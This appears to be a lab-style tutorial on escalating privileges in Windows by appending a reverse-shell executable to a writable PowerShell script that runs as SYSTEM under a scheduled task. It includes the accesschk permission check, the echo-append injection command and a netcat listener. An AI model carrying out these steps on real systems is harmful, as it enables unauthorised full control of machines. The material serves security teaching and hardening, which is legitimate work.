




Introduction
In this article, we will cover how to escalate privileges on a Windows system by exploiting Scheduled Tasks.
First, let us understand what scheduled tasks are. Windows has the ability to schedule tasks, meaning you can configure a command or script to run at a specific time or on a recurring interval (for example, every five minutes). When a scheduled task is created, it executes with the privileges of the user who created it.
However, as a low-privileged user, it is difficult to view the scheduled tasks of other users. This means you need to search for the associated script files manually by browsing through directories on the system.
Walkthrough
Step 1: Initial Access
As usual, we start with a limited-privilege user account on the target system (the user account).
Step 2: Discovering a Scheduled Script
After manually searching through various directories, we notice a PowerShell script located at:
C:\DevTools\CleanUp.ps1
Let us examine its contents:
# This script runs every minute and deletes all log files in the current directory
# Runs as SYSTEM
Remove-Item -Path "C:\DevTools\*.log" -Force
The comments in the script reveal two critical pieces of information: 1. The script runs every minute as a scheduled task 2. It executes with SYSTEM privileges, which is the highest privilege level on a Windows system
This makes it a perfect target for privilege escalation -- if we can modify this script, we can inject our own commands that will execute as SYSTEM.

Step 3: Checking Write Permissions
Before attempting to modify the script, we need to verify that we have write access to it. We use the accesschk tool:
accesschk.exe /accepteula -quvw "C:\DevTools\CleanUp.ps1"
The output confirms that our current user has both read and write permissions on the file.

Step 4: Injecting the Malicious Payload
Now we append a line to the PowerShell script that will execute our malicious payload. We use the following command to add our reverse shell executable to the script:
echo C:\Users\user\Desktop\reverse.exe >> C:\DevTools\CleanUp.ps1
This ensures that the next time the scheduled task runs (within one minute), it will execute our payload with SYSTEM privileges in addition to its normal cleanup operations.

Step 5: Setting Up a Listener
We set up a netcat listener on our attacker machine on the port configured in our malicious payload:
nc -lvnp <port>
Within one minute, the scheduled task fires, executes the modified CleanUp.ps1 script as SYSTEM, and our reverse shell payload runs with those elevated privileges. We receive a connection back on our listener with full SYSTEM access.

Result
We have successfully obtained the highest privilege level on the system by exploiting a writable scheduled task script. The key factors that made this attack possible were: a scheduled task running with SYSTEM privileges, and the associated script file having overly permissive write access for low-privileged users.
